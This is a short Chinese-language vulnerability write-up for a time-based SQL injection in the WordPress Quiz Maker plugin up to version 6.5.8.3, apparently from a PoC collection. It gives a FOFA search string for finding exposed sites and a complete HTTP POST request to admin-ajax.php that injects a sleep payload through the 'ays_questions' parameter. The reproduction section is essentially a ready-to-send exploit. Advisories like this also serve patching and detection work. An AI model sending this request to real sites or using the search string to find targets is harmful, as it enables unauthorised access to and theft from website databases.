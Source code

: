 **漏洞名称**

Quiz Maker SQL注入漏洞

**漏洞影响**

Quiz Maker <= 6.5.8.3

**漏洞描述**

WordPress的Quiz Maker插件在6.5.8.3版本及以下存在基于时间的SQL注入漏洞，漏洞位于“ays_questions”参数上。由于对用户提供的参数缺乏足够的转义处理和对现有SQL查询的充分准备不足，使得未经验证的攻击者能够在已有的查询中附加额外的SQL查询，从而可能从数据库中提取敏感信息。

**FOFA搜索语句**

"/wp-content/plugins/quiz-maker/"

**漏洞复现**

POC数据包如下，睡眠5秒

```yaml
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.124 Safari/537.36
Connection: close
Content-Length: 124
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

ays_quiz_id=1&ays_quiz_questions=1,2,3&quiz_id=1&ays_questions[ays-question-4)+or+sleep(if(1>0,5,0)]=&action=ays_finish_quiz
```

